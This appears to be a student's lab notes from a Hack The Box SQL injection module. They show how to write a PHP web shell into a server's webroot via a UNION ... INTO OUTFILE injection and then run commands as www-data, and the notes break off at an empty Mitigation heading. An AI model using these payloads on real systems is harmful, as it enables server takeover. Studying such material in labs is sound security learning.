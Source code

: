     secure_file_priv
    
    ```
    KareemAlsadeq@htb[/htb]$ ls -la /tmp/test.txt -rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
    ```
    
    As we can see above, the `test.txt` file was created successfully and is owned by the `mysql` user.
    
    Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.
    
      
    
      
    
    ## Writing a Web Shell:
    
    Having confiremed write permission we can write :
    
    - a PHP WebShell
    - at the webroot folder .
    - we can write the following php webshell to
    - be able to excute commands on the back server .
        
        ```
        <?php system($_REQUEST[0]);  ?>
        ```
        
    - and here is how we can write it in a file at the webroot folder via UNION command
    
    ```
    ' UNION select "",'<?php system($_REQUEST[0]); ?>',"","" into outfile '/var/www/html/shell.php' -- -
    ```
    
    AS WE SAW the way of outfiling this file is just simplu by telling it after selecting we say
    
    put it (into) an out file (outfile) present in (/var/www/html/shell.php)
    
    select …… into outfile ‘place’
    
    - if we got nothing as a product then this will mean that it is done correctly .
    - and to access the file that we outfiled on the
        
        - /var/www/html/shell.php whcih is the webroot for this server we are implementing on .
        - we are going to use the [http://serverip](http://serverip):port/shell.php?
        
        in another way we just type slash and then the shell . php
        
          
        The output of the `id` command confirms that we have code execution and are running as the `www-data` user.
        
          
        

  

  

## Mitigation :
